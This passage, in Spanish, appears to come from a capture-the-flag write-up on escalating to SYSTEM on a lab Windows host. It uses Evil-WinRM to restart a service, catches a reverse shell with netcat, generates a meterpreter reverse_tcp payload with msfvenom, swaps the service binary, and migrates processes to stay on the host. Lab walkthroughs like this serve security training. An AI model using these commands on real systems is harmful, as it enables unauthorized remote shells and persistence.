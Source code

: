 Y paramos e iniciamos el servicio:
```powershell
Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

Y observamos que en nuestro nc se ha establecido conexión:
```bash
$ nc -lvnp 4444                                                                                                                                                        
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 53956
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Esa shell morirá en poco tiempo por lo que podemos usar msfvenom para generar una shell de meterpreter en un archivo para el host remoto de Windows:
```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f exe > shell-x86.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Y la subimos igual que antes con upload.
Y nos vamos a meterpreter con msfconsole.

![image](https://github.com/user-attachments/assets/c2469f7c-79a9-4f12-bb3e-215ba9e6bcc9)
![image](https://github.com/user-attachments/assets/faa9a9b1-0f0d-45ac-9323-75dee1da4a70)

Y ahora modificamos el servicio binario para obtener nuestra shell con la que hemos subido:
![image](https://github.com/user-attachments/assets/9a394d43-c88b-4fb7-aa44-59b9f5594bda)

![image](https://github.com/user-attachments/assets/c3bca298-8938-4418-a7e9-2a94365cd920)

Con migrate conseguimos persistencia al cambiar a un proceso que no suele cerrarse y siempre está activo.

![image](https://github.com/user-attachments/assets/3b1762ee-0360-400f-998b-a5c2a3d581c7)

![image](https://github.com/user-attachments/assets/b31a61dc-7834-4c32-a194-f7d88eb0d6cc)



